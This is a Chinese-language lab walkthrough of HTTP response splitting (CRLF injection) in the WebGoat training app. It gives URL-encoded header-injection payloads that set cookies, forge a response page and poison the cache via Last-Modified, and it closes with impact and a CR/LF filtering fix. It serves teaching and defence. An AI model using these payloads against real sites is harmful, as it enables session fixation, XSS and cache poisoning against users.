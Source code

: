 ## HTTP响应拆分
HTTP响应拆分漏洞，也叫`CRLF`注入攻击。利用`CR(%0d)`与`LF(%0a)`等特殊字符串进行攻击。HTTP头由很多被`CRLF`组合分离的行构成，每行的结构都是“键：值”。如果用户输入的值部分注入了`CRLF`字符，它有可能改变的HTTP报头结构。

### 漏洞分析
一般网站会在HTTP头中用`Location: http://example.com`这种方式来进行302跳转，所以我们能控制的内容就是`Location:`后面的XXX某个网址。

所以一个正常的302跳转包是这样：
```http
HTTP/1.1 302 Moved Temporarily 
Date: Mon, 20 Apr 2015 20:23:57 GMT
Content-Type: text/html 
Content-Length: 50 
Connection: close 
Location: http://example.com/WebGoat/attack
```
如果在HTTP头中`Location`它的值变为`http://example.com/WebGoat/attack%0aSet-cookie:PHPSESSID%3Dexample.com`的时候，HTTP返回的头信息会变成下面这样：
```http
HTTP/1.1 302 Moved Temporarily 
Date: Mon, 20 Apr 2015 20:25:17 GMT
Content-Type: text/html 
Content-Length: 50 
Connection: close 
Location: http://example.com/WebGoat/attack
Set-cookie: PHPSESSID=example.com
```
这样就成功的在http头里面注入了新的key/value。
这样也就可以随意的执行xss攻击了。

所以，可以这样构造一个url请求。
```http
http://example.com/WebGoat/attack%0aHTTP/1.1%20200%20OK%0aContent-Type:%20text/html%0aSet-cookie:PHPSESSID%3Dexample.com%0aX-XSS-Protection:%200%0aContent-Length:%2049%0a%0a<html><head><title>Hacked</title></head><body>hacked Q6E79D</body><html>
```

### WebGoat的HTTP Splitting
课程是两个步骤：
第一步，执行拆分攻击。
第二步，缓存污染，要求篡改HTTP头中的Last‐Modified字段。
#### 工具
- [WebScarab](https://www.owasp.org/index.php/WebScarab)
- [PCE](http://yehg.net/encoding) - PHP Charset Encoder/String Encrypter
需要注意，以下操作过程仅适用于Linux 环境。如果您正在使用Windows，请作相关的修
改。Windows 系统中同时使用CR 和LF 两个字符表示新行。Linux 用户只需要使用LF，Mac OS
用户请使用CR。所以如果您正在使用Windows 系统，请将以下操作过程中所有的%0a 需要
替换成%0d%0a（Windows）或%0d（Mac OS）。

第一步拆分攻击，使用PCE对下面的代码进行URL编码
```html
Foobar
Content-Length: 0


HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 47


<html><head><title>Hacked</title></head><body>hacked Q6E79D</body><html>
```
最后得到的结果是：
```html
Foobar%0AContent-Length%3A%200%0A%0A%0AHTTP%2F1.1%20200%20OK%0AContent-Type%3A%20text%2Fhtml%0AContent-Length%3A%2047%0A%0A%0A%3Chtml%3E%3Chead%3E%3Ctitle%3EHacked%3C%2Ftitle%3E%3C%2Fhead%3E%3Cbody%3Ehacked%20Q6E79D%3C%2Fbody%3E%3Chtml%3E
```
填充到search输入框提交后得到hacked Q6E79D页面信息。然后点击浏览器后退。
第二步缓存污染，修改Last‐Modified字段：
```html
Foobar
Content-Length: 0


HTTP/1.1 200 OK
Content-Type: text/html
Last-Modified: Mon, 27 Oct 2060 14:50:18 GMT
Content-Length: 47

<html><head><title>Hacked</title></head><body>hacked Q6E79D</body><html>
```
得到的结果是：
```html
Foobar%0AContent-Length%3A%200%0A%0A%0AHTTP%2F1.1%20200%20OK%0AContent-Type%3A%20text%2Fhtml%0ALast-Modified%3A%20Mon%2C%2027%20Oct%202060%2014%3A50%3A18%20GMT%0AContent-Length%3A%2047%0A%0A%3Chtml%3E%3Chead%3E%3Ctitle%3EHacked%3C%2Ftitle%3E%3C%2Fhead%3E%3Cbody%3Ehacked%20Q6E79D%3C%2Fbody%3E%3Chtml%3E
```
填充到search输入框提交，完成本次课程的所有操作。

### 使用场景
设置`Location`情况是web应用程序重定向。

### 危害
攻击者可能注入自定义HTTP头。例如，攻击者可以注入会话cookie或HTML代码。这可能会进行类似的XSS（跨站点脚本）或会话固定漏洞。

### 解决方案：
HTTP拆分攻击是在web应用程序做跳转的时候设置`Location:`的值时，URI中的参数未做过滤。
所以限制用户输入的CR(%0d)和LF(%0a)，或者对CR(%0d)和LF(%0a)字符正确编码后再输出，以防止注入自定义HTTP头。

